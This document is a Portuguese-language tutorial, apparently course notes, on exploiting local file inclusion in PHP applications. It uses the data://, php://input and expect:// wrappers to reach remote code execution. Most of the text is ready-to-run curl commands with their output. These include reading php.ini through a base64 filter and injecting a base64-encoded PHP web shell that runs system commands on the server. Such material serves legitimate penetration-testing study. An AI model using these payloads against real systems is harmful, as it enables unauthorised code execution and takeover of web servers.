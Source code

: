 # Wrappers PHP e Exploração de Vulnerabilidades LFI

## Verificação de Configurações PHP

Antes de usar wrappers PHP, verifique se `allow_url_include` está habilitado:

```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" | base64 -d | grep allow_url_include
```
Execução Remota de Código com Wrappers
Wrapper data
Codifique um web shell em base64 e passe-o via URL:
echo '<?php system($_GET["cmd"]); ?>' | base64
# Resultado: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
Execute o comando codificado via URL:


curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
# Resultado: uid=33(www-data) gid=33(www-data) groups=33(www-data)
Wrapper input
Envie o web shell como dados POST e passe o comando como parâmetro GET:


curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
# Resultado: uid=33(www-data) gid=33(www-data) groups=33(www-data)
Wrapper expect
Verifique a disponibilidade do expect e use-o para executar comandos:

Verificação

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
# Resultado: extension=expect

Execução
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id" | grep uid
# Resultado: uid=33(www-data) gid=33(www-data) groups=33(www-data)

Resumo
Os wrappers PHP data, input, e expect permitem a execução de código remoto via vulnerabilidades LFI, proporcionando diferentes métodos para obter controle sobre o servidor back-end. Verifique a configuração allow_url_include, pois muitos desses ataques dependem dessa configuração estar habilitada.